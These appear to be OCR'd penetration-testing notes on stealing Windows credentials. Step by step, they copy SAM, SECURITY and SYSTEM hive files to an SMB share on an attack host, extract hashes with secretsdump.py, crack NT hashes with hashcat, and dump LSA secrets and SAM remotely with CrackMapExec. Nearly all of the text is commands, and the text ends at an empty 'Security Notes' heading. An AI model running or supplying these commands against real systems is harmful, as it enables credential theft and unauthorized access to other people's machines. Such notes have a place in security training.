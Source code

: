 
## Transferring Hive Files

1. Create SMB share on attack host:
    
    ```
    sudo python3 /path/to/smbserver.py -smb2support SHARE_NAME /path/to/directory
    
    ```
    
2. Move files from target to share:
    
    ```
    move sam.save \\ATTACK_IP\SHARE_NAMEmove security.save \\ATTACK_IP\SHARE_NAMEmove system.save \\ATTACK_IP\SHARE_NAME
    
    ```
    

## Extracting Hashes with secretsdump.py

```
python3 /path/to/secretsdump.py -sam sam.save -system system.save -security security.save LOCAL

```

- Output format: username:RID:LM hash:NT hash
- Modern Windows systems use NT hashes

## Cracking Hashes with Hashcat

1. Save NT hashes to a text file
2. Run hashcat with mode 1000 (for NT/NTLM):
    
    ```
    hashcat -m 1000 hashestocrack.txt /path/to/wordlist.txt
    
    ```
    

## Remote Dumping Methods

- Using CrackMapExec to dump LSA secrets:
    
    ```
    crackmapexec smb TARGET_IP --local-auth -u USERNAME -p PASSWORD --lsa
    
    ```
    
- Dumping SAM remotely:
    
    ```
    crackmapexec smb TARGET_IP --local-auth -u USERNAME -p PASSWORD --sam
    
    ```
    

## Security Notes

